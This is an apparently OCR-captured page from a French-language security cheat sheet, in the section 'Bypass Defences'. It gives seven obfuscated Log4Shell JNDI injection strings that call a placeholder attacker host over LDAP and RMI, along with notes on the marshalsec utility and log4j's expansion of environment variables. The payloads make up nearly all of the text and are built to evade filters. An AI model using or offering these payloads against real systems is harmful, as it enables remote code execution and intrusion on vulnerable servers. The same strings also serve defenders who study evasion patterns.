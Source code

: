 
Bypass Defences

```c
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
```

```c
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
```

```c
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
```

```c
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
```

```c
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
```

```c
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
```

```c
${${::-j}ndi:rmi://attackerendpoint.com/}
```


Notez l'utilisation du protocole `rmi://` dans le dernier. C'est également une autre technique valable qui peut être utilisée avec l'utilitaire `marshalsec`.

De plus, dans le moteur log4j, vous pouvez développer des variables d'environnement arbitraires (si cela n'était pas déjà assez grave)

